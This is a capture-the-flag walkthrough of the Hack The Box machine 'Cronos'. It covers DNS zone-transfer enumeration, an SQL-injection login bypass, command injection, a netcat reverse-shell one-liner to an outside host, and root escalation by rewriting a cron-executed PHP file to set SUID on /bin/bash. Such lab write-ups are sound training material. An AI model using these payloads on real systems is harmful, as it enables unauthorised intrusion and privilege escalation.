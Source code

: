 # Cronos

## Basic Information

|          |  |
| :---                 |     :---:      |
| Machine Name         | Cronos     |
| Written by           | Adir Biran       |
| IP Address           | 10.10.10.13       |
| Tools and Techniques |        |

## Method

## Enumeration


#### Nmap
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677718-6b630f54-92d5-4b90-81fb-10b4ee89e47c.png">
</p>

Open Ports:  
22 - SSH  
53 - DNS  
80 - HTTP  

#### Gobuster

Gobuster - Port 80  
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677719-8e4f9dfc-7820-45e4-94e6-8c32a582ec1c.png">
</p>

the website
<img src="https://user-images.githubusercontent.com/21021400/145677720-3e99be85-6762-4023-b68f-4ea99ef70811.png">
<p align="center">
</p>

nslookup 10.10.10.13 10.10.10.13
looking for virtual hosts and using the machine as the server
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677721-c549c411-d118-4ee8-b20f-8e09f00ece02.png">
</p>

found domain: cronos.htb

looking for virtual hosts related to cronos.htb
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677722-ed52b9d2-3f44-4209-914e-f554938b985e.png">
</p>
dig axfr cronos.htb @10.10.10.13

cronos.htb
ns1.cronos.htb
admin.cronos.htb

add to /etc/hosts
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677724-0e8d0677-de27-431c-b431-a4c2543bc3ef.png">
</p>

cronos.htb
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677725-62437be2-326c-4156-a4f1-056cf65a3d0f.png">
</p>

ns1.cronos.htb
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677726-669d2693-4015-4bd3-9fd1-e5db1f99600d.png">
</p>

admin.cronos.htb
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677727-1dd27a73-4488-4ab9-84df-3e66d18d86fa.png">
</p>

tried admin:admin and few more default credentials
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677728-c38155e2-6f05-4b32-a689-73826a4275f3.png">
</p>

tried sqli
' or 1==1-- -
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677729-957cac37-65da-4faf-b628-2a22bfa7f000.png">
</p>

and we're in.
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677730-8ba44d89-b9d2-40e3-bc3b-af0c3d40a76e.png">
</p>

pinged myself and captured the traffic with tcpdump
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677731-a0421405-d315-4c4d-83bb-358db05712b7.png">
</p>

tried command injection
;whoami
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677732-e56b199b-bef1-426b-8862-a9fbebf28565.png">
</p>

the user running the commands is www-data.

lets get a reverse shell
;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 1234 >/tmp/f
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677733-3136df78-09b4-41a1-838e-d81c4ed01a9f.png">
</p>

users on the machine:
www-data
noulis
root
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677734-876ef1e6-3b9a-4935-96b1-33269212394d.png">
</p>


www-data's groups
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677735-524fc622-ce17-478c-bc2c-a058ed843151.png">
</p>

suid
find / -perm -4000 2>/dev/null
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677736-dd9b77d6-dd8e-433b-b7cf-5b1bf67f275c.png">
</p>

sudo
sudo -l
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677737-7c8f3876-147c-4fd3-810b-43f038b7a8d6.png">
</p>

capabilities
getcap -r / 2>/dev/null
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677739-1f478587-07f6-4cef-85a2-c402e4577402.png">
</p>

checking noulis' home directory
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677740-55b963a1-2c6f-47e9-8f5d-e721e09f6b2f.png">
</p>

checking /var/www directory
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677742-542d0ded-42b9-4f1a-bdef-4ee2150eebce.png">
</p>

laravel is installed in /var/www, checking config files in laravel
/var/www/laravel/.env
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677743-be5d86da-253d-47fb-8d83-36e4dd8a01e7.png">
</p>

checking crontab
cat /etc/crontab
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677744-5453e29a-9bfa-41d2-a291-59c471a12b35.png">
</p>

there is a cron job running by root every minute
executing with php the /var/www/laravel/artisan file.

checking the content of the file
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677745-a124ded3-b202-4f6b-9522-d1c1bd6384a0.png">
</p>

we can write to that file
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677746-4671096c-0975-4a67-83cf-ea1b57a76929.png">
</p>

lets replace the content of the file with the following:
<?php
system('chmod +s /bin/bash');
?>

echo "<?php system('chmod +s /bin/bash'); ?>" > artisan
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677747-c67e0899-65b3-4edc-9aa5-1b3c133f36a9.png">
</p>

once executed by root, a SUID will be added to /bin/bash and we will be able to get a root shell.

after a minute, checking the /bin/bash permissions:
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677751-26efb128-2f8d-4e92-a4fc-9ff0bc959494.png">
</p>

executing a root shell with
bash -p
<p align="center">
<img src="https://user-images.githubusercontent.com/21021400/145677752-17ae7c2b-99f1-43e9-93ec-6ca7e13fbad5.png">
</p>

and we're root.



